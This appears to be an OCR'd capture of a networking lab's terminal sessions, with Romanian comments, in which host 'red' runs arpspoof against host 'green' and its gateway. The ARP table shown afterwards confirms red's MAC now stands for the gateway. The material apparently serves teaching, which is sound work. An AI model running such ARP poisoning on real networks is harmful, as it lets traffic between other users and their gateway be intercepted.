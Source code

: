 
```sh
# In terminalul 1
root@green:~# elinks http://curs.upb.ro/
```


```sh
# In terminalul 2
root@red:~# ip link show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN mode DEFAULT group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
5: red-eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1450 qdisc noqueue state UP mode DEFAULT group default qlen 1000
    link/ether 8e:33:20:7c:74:40 brd ff:ff:ff:ff:ff:ff link-netnsid 0
root@red:~# ip route show default
default via 192.168.0.100 dev red-eth0 
root@red:~# arpspoof -i red-eth0 -t 192.168.2.2 192.168.0.100 -r
8e:33:20:7c:74:40 f6:d7:ed:6f:db:9 0806 42: arp reply 192.168.0.100 is-at 8e:33:20:7c:74:40
8e:33:20:7c:74:40 2:c8:2b:c:62:d2 0806 42: arp reply 192.168.2.2 is-at 8e:33:20:7c:74:40
8e:33:20:7c:74:40 f6:d7:ed:6f:db:9 0806 42: arp reply 192.168.0.100 is-at 8e:33:20:7c:74:40
8e:33:20:7c:74:40 2:c8:2b:c:62:d2 0806 42: arp reply 192.168.2.2 is-at 8e:33:20:7c:74:40
```


```sh
# In terminalul 3
root@red:~# ip addr show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
5: red-eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1450 qdisc noqueue state UP group default qlen 1000
    link/ether 8e:33:20:7c:74:40 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.168.1.2/22 scope global red-eth0
       valid_lft forever preferred_lft forever
root@red:~# ip addr show dev red-eth0
5: red-eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1450 qdisc noqueue state UP group default qlen 1000
    link/ether 8e:33:20:7c:74:40 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.168.1.2/22 scope global red-eth0
       valid_lft forever preferred_lft forever
```


```sh
# In terminalul 4
root@green:~# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.0.100            ether   8e:33:20:7c:74:40   C                     green-eth0
192.168.1.2              ether   8e:33:20:7c:74:40   C                     green-eth0
```
